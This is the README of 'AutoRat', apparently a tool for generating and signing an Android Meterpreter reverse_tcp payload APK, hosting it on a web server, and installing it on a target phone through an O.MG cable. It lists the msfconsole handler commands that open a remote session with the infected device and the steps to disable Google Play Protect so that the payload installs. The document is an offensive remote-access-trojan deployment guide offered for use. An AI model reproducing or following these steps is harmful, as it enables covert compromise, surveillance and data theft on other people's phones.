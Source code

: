# AutoRat

## Requirements

Firstly, for the Requirements we need the following
- Ubuntu OS over a server
- Steady internet

## Installation

Run the following commands

```bash
sudo bash install.sh
```

and 

```python
pip3 install -r requirements.txt
```

## How to run

`python3 main.py`

## Guilines on How to use

- `First`: The options must be selected and must be in an order for example for a payload to be signed it must be first be generated.
- `Second`: While generating the payload make sure that the .apk extention is written.
- `Third`: Once payload signing process starts **read and follow each instruction carefully** and at the end when you see a prompt `[no]` enter `yes` and press enter.
- `Fourth`: The listener option or the listener you are using to connect with the effected system will need a few manual inputs from your end. `Enter in the msfconsole` They are:

```bash
use use exploit/multi/handler
set payload payload/android/meterpreter/reverse_tcp
set lhost <<ip>>
set lport <<port>>
run
```
Just copy paste them one by one

## File locations
- The signed files will be located in the `signed_files` directory
- The keyfile and the payload file will be located in `payload_files` directory

## Hosting

I suggest you have a web-hosting on servers like `Linode` or `AWS` so that the hosting process is easy.
The payload files will be hosted on the apache server and you just need to enter the `http://<IP>/<apk_name>` to start the download.
The OMG cable must first disable the Google play protect for this to be successful.

`Point to remember`: all the packages needed are installed by the installer script and no manual installations are needed.

## OMG cable

The OMG cable has its own scripting and the guild will be provided on the time of buying and these are the things that must be taken care using the OMG cable
- Disable Google Play Protect
- Install the file

The scripting language has its own methods of doing this and this is the path to diable google play protect.
```
Settings >> Google >> Security >> Google Play Protect >> Tap on Cog-wheel >> Select Scan apps with Play Protect to turn it off
```
